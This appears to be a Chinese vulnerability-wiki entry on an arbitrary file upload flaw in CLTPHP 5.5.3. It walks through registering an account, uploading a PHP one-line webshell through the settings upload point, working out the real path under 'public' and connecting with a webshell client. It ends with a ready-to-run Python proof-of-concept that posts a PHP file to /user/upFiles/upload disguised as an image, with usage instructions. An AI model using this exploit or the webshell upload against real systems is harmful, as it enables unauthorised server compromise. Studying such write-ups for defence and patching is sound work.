 CLTPHP 5.5.3 任意文件上传漏洞
=============================

一、漏洞简介
------------

CLTPHP采用ThinkPHP开发，后台采用Layui框架的内容管理系统。

二、漏洞影响
------------

CLTPHP 5.5.3

三、复现过程
------------

找到一个注册界面

![2.png](/Users/aresx/Documents/VulWiki/.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId24.png)

随便注册一个用户，登陆后在设置里找到一个上传点

![3.png](/Users/aresx/Documents/VulWiki/.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId25.png)

上传我们的一句话木马

![4.png](/Users/aresx/Documents/VulWiki/.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId26.png)

查看返回包，上传成功

![5.png](/Users/aresx/Documents/VulWiki/.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId27.png)

访问失败，猜测返回路径可能不是绝对路径

![6.png](/Users/aresx/Documents/VulWiki/.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId28.png)

通过报错信息查找关键词，发现存在public目录 那再把public加上再试试\~
success！

![7.png](/Users/aresx/Documents/VulWiki/.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId29.png)

菜刀连接

![8.png](/Users/aresx/Documents/VulWiki/.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId30.png)

### poc

> payload.py

    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    #Author：Bypass
    #Date：2018.03.01
    import requests
    import sys

    def CLPHP_upload(url):
            header = { 'User-Agent' : 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)' ,
                                    'X-Requested-With': 'XMLHttpRequest',} 
            geturl = url+"/user/upFiles/upload"
            files ={'file':('1.php',open('1.php','rb'),'image/jpeg')}
            res = requests.post(geturl, files=files,headers=header)
            print res.text

    if __name__ == "__main__":
            if len(sys.argv) == 2:
                    url=sys.argv[1]
                    CLPHP_upload(url)
                    sys.exit(0)
            else:
                    print ("usage: %s xxx.com " % sys.argv[0])
                    sys.exit(-1)

**使用方法**：把payload.py和一句话.php放到同一文件夹下，

![9.png](/Users/aresx/Documents/VulWiki/.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId32.png)

cmd执行 `python payload.py www.0-sec.org`

![10.png](/Users/aresx/Documents/VulWiki/.resource/CLTPHP5.5.3任意文件上传漏洞/media/rId33.png)

参考链接
--------

> https://www.cnblogs.com/unixcs/p/11244463.html
